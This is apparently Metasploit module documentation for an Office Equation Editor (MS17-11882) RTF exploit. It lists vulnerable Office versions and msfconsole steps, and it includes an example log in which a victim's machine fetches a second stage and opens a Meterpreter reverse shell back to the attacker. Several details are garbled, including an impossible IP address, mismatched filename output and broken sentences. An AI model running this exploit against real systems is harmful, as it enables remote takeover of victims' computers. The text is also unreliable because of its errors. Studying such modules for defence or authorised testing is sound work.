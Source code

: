 ## Introduction

Module exploits a flaw in how the Equation Editor that allows an attacker to execute arbitrary code in RTF files without interaction. The vulnerability is caused by the Equation Editor, to which fails to properly handle OLE objects in memory.

## Vulnerable Applications

- Microsoft Office 2016
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2007

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_ms17_11882`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`


## Options
### FILENAME
Filename to output & if injecting a file, the file to inject

### FOLDER_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_ms17_11882
msf exploit(office_ms17_11882) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_ms17_11882) > set LHOST ens3
LHOST => ens3
msf exploit(office_ms17_11882) > set LPORT 35116
LPORT => 35116
msf exploit(office_ms17_11882) > run
[*] Using URL: http://0.0.0.0:8080/BUY0DYgc
[*] Local IP: http://192.1668.0.11:8080/BUY0DYgc
[*] Server started.
[*] 192.168.0.24     office_ms17_11882 - Handling initial request from 192.168.0.24
[*] 192.168.0.24     office_ms17_11882 - Stage two requestd, sending
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217) at 2017-11-21 14:41:59 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

